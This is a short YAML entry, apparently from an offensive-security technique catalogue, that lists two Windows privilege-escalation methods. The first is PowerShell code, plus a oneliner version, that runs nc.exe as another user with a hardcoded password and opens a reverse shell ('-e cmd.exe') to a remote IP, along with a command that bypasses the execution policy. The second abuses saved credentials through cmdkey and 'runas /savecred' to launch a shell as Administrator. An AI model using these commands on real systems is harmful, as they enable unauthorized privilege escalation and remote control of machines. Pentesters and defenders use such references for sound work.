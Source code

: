 ```yaml
---
functions:
  privilege-escalation:
    - description: (1) Execute a function, script, or application as another user
      code: |
        $secpasswd = ConvertTo-SecureString "aliceisnothere" -AsPlainText -Force
        $mycreds = New-Object System.Management.Automation.PSCredential ("alice", $secpasswd)
        $computer = "localhost"
        [System.Diagnostics.Process]::Start("C:\users\public\nc.exe","192.168.119.149 9090 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

        Oneliner:
        $secpasswd = ConvertTo-SecureString "MEGACORP_4dm1n!!" -AsPlainText -Force;$mycreds = New-Object System.Management.Automation.PSCredential ("administrator", $secpasswd);$computer = "localhost";[System.Diagnostics.Process]::Start("nc.exe","10.10.14.61 2177 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

        Run:
        powershell -c "Set-ExecutionPolicy -Scope CurrentUser bypass;./runas.ps1"

    - description: (2) Execute a function, script, or application as another user
      code: |
        cmdkey /list
        Currently stored credentials:
        Target: Domain:interactive=WORKGROUP\Administrator
        Type: Domain Password
        User: WORKGROUP\Administrator

        runas /savecred /user:Administrator shell.exe

resources: |
  https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-Runas.ps1
---
```

